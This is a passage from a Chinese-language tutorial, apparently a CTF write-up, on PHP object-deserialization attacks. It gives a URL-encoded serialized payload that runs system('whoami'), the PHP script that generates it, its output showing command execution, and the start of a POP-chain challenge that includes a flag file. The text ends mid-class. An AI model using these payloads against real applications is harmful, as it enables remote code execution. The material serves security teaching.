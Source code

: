 构造 payload：

```text
O%3A5%3A%22index%22%3A1%3A%7Bs%3A11%3A%22%00index%00test%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A5%3A%22test2%22%3Bs%3A17%3A%22system%28%22whoami%22%29%3B%22%3B%7D%7D
```

```php
<?php
class index {
    private $test;
    public function __construct(){
        $this->test = new evil();
        $this->test->test2 = 'system("whoami");';
    }
}
class evil {
    var $test2;
}

echo urlencode(serialize(new index()));
```

运行结果：

```text
win-1iljbo80gej\administrator
```

### 3、POP 链构造及 POC 构造

题目代码：

```php
<?php
//flag is in flag.php
highlight_file(__FILE__);
error_reporting(0);
class Modifier {
    private $var;
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

```
